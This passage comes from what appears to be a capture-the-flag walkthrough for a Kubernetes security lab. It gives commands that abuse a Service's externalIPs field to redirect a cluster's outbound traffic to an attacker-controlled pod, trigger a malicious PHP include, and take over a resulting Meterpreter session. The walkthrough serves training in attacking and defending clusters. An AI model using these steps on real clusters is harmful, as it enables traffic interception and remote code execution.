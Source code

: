         ```shell
        staticip="147.182.229.202"
        ```

162. Create a manifest for an external IP service to redirect any outbound traffic from the cluster to `static.containersecurityctf.com` to a pod we control instead.

        ```shell
        cat <<END >cve.yaml
        apiVersion: v1
        kind: Service
        metadata:
          name: mitm-cve
          namespace: ellingson-min
        spec:
          selector:
            app: serve-static
          ports:
            - name: http
              protocol: TCP
              port: 80
              targetPort: 8000
          externalIPs:
            - $staticip
        END
        ```

163. Let's apply our cve.yaml file:

        ```shell
        kubectl-davinci apply -f cve.yaml
        ```

164. Finally, we're at step 4. The gibson only requests `static-inclusion.php` when it gets a request. So, launch a request:

        ```shell
        curl -s http://$ip/
        ```

165. We should find that we're notified of another Meterpreter session. Let's switch to the new session.  First, hit Ctrl-Z to background this Meterpreter channel.

        ```
        Hit Ctrl-z
        ```

166. Next, hit y to confirm.

        ```
        Hit y
        ```

167. Now, tell the Metasploit console that you'd like to background the session:

        ```shell
        background
        ```
